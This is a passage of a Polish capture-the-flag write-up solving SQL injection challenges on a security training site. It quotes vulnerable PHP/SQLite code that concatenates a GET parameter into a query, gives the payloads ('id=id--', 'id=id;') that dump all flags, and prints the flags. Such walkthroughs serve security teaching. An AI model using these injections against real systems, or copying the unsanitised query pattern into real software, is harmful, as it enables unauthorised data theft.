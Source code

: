    Zmienna `id` jest pobierana z parametru zapytania GET do serwera.

2. Metodą siłową próbować podać w parametrze zapytania GET kolejne id:
   
   [http://training.securitum.com/rozwal/gim/gimnazjum2/?id=0](http://training.securitum.com/rozwal/gim/gimnazjum2/?id=0)
   
   ...
   
   Aż do skutku:
   
   [http://training.securitum.com/rozwal/gim/gimnazjum2/?id=3](http://training.securitum.com/rozwal/gim/gimnazjum2/?id=3)
   
 3. Wszystkie flagi można wykraść wstrzymując w parametrze zapytania `id=id--`.
    
    Otrzymany rezultat:
    ```
    ROZWAL_NIE_TEN_FORMATROZWAL_{ZjazdGimboli}ROZWAL_{ZjazdGimboli}ROZWAL_{ZjazdGimboli}ROZWAL_{ZjazdGimboli}ROZWAL_{ZjazdGimboli}ROZWAL_{OdZjazduGimboliGlowaBoli}
    ```
 

### [Trochę ciężej](http://training.securitum.com/rozwal/gim/gimnazjum3/)

[Rozwiązanie](http://training.securitum.com/rozwal/gim/gimnazjum3/?id=id;): _SelectNameFromGimbus_

**Metoda**:

1. Ze źródła strony:

    ```php
    <!--?php
    readfile(__FILE__);
    $db= new SQLite3('db.db');
    $_GET['id'] = str_replace(array('-','*'),'',$_GET['id']);
    $res = $db--->
    
    query('SELECT name FROM flags WHERE id='.$_GET['id'].' LIMIT 1');
    while($r=$res-&gt;fetchArray()) {
	    echo $r['name'];
    }
    ```
    
    Tym razem nie jest możliwe dodanie komentarza w SQL (`--`), ponieważ taki ciąg jest podmieniany na `**`.
    
2. Wstrzyknąć `id=id;`. Średnik kończy zapytanie SQLowe, przez co zwracany jest wynik bez ograniczenia do 1.

    ```
    ROZWAL_NIE_TEN_FORMATROZWAL_{ZjazdGimboli}ROZWAL_{ZjazdGimboli}ROZWAL_{ZjazdGimboli}ROZWAL_{ZjazdGimboli}ROZWAL_{ZjazdGimboli}ROZWAL_{OdZjazduGimboliGlowaBoli}ROZWAL_{OdZjazduGimboliGlowaBoli}ROZWAL_{OdZjazduGimboliGlowaBoli}ROZWAL_{SelectNameFromGimbus}
    ```




[1]: https://en.wikipedia.org/wiki/Base64
[2]: https://en.wikipedia.org/wiki/Brute-force_attack
[3]: www.sqlite.org/src/
[4]: https://en.wikipedia.org/wiki/MD5
[5]: https://en.wikipedia.org/wiki/Letter_frequency